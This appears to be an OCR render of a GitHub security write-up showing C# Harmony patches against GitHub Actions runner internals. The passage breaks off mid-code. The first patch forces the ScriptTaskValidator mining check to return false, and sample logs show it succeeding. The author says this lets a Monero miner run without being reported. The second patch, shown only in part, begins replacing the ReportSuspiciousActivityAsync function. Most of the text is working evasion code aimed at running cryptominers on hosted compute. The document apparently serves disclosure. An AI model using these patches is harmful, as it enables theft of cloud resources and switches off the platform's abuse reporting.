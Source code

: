 ```csharp
[HarmonyPatch(typeof(GitHub.DistributedTask.Pipelines.Validation.ScriptTaskValidator))]
public class ScriptTaskValidatorPatches
{
    [HarmonyPrefix]
    [HarmonyPatch(nameof(GitHub.DistributedTask.Pipelines.Validation.ScriptTaskValidator.HasBadParamOrArgument))]
    static void HasBadParamOrArgument_Prefix(ref string exeAndArgs)
    {
        //trigger provisioner by appending XMR address to exeAndArgs
        exeAndArgs += " 48edfHu7V9Z84YzzMa6fUueoELZ9ZRXq9VetWzYGzKt52XU5xvqgzYnDK9URnRoJMk1j8nLwEVsaSWJ4fhdUyZijBGUicoD";
    }

    [HarmonyPostfix]
    [HarmonyPatch(nameof(GitHub.DistributedTask.Pipelines.Validation.ScriptTaskValidator.HasBadParamOrArgument))]
    static void HasBadParamOrArgument_Postfix(string exeAndArgs, ref bool __result)
    {
        //checking result from original function HasBadParamOrArgument(...), it would be True for all processes
        NetworkLogger.GetInstance().Write($"ScriptTaskValidator // HasBadParamOrArgument({exeAndArgs}, ..., ...) = {__result}");
        __result = false; //set result to false to bypass provisioner check ;D
    }
}
```

There is example output after doing this patch:
```
ScriptTaskValidator // HasBadParamOrArgument(dotnet "C:\Program Files\dotnet\dotnet.exe" exec "C:\Program Files\dotnet\sdk\6.0.301\Roslyn\bincore\VBCSCompiler.dll" "-pipename:q1wL+usWKy9lMQy0zJFLX69E5zGeeP3NsF75bARkrok" 48edfHu7V9Z84YzzMa6fUueoELZ9ZRXq9VetWzYGzKt52XU5xvqgzYnDK9URnRoJMk1j8nLwEVsaSWJ4fhdUyZijBGUicoD, ..., ...) = True
ScriptTaskValidator // HasBadParamOrArgument(conhost \??\C:\Windows\system32\conhost.exe 0x4 48edfHu7V9Z84YzzMa6fUueoELZ9ZRXq9VetWzYGzKt52XU5xvqgzYnDK9URnRoJMk1j8nLwEVsaSWJ4fhdUyZijBGUicoD, ..., ...) = True
ScriptTaskValidator // HasBadParamOrArgument(cmd "C:\Windows\system32\cmd.EXE" /D /E:ON /V:OFF /S /C "CALL "D:\a\_temp\b6691e1d-9d87-4460-bf1f-42cf7bfa196d.cmd"" 48edfHu7V9Z84YzzMa6fUueoELZ9ZRXq9VetWzYGzKt52XU5xvqgzYnDK9URnRoJMk1j8nLwEVsaSWJ4fhdUyZijBGUicoD, ..., ...) = True
ScriptTaskValidator // HasBadParamOrArgument(python python  scripts\server.py 48edfHu7V9Z84YzzMa6fUueoELZ9ZRXq9VetWzYGzKt52XU5xvqgzYnDK9URnRoJMk1j8nLwEVsaSWJ4fhdUyZijBGUicoD, ..., ...) = True
ScriptTaskValidator // HasBadParamOrArgument(taskhostw taskhostw.exe 48edfHu7V9Z84YzzMa6fUueoELZ9ZRXq9VetWzYGzKt52XU5xvqgzYnDK9URnRoJMk1j8nLwEVsaSWJ4fhdUyZijBGUicoD, ..., ...) = True
```

Such an attack may allow a Monero miner to be launched without reporting suspicious activity.
Speaking of suspicious activity, I can also replace the function that reports it, but I haven't tested that so as not to do anything banned on
the GitHub

Here is example code to do it:
```csharp
[HarmonyPatch(typeof(MachineManagement.Provisioning.MachineManagementClient))]
public class MachineManagementClientPatches
{
    [HarmonyPrefix]
    [HarmonyPatch(nameof(MachineManagement.Provisioning.MachineManagementClient.ReportSuspiciousActivityAsync))]
    static bool ReportSuspiciousActivityAsync(
        long requestId,
        byte[] postRegistrationAccessToken,
        string suspiciousActivity,
        string poolName,
        string instanceName,
        ref Task __result
```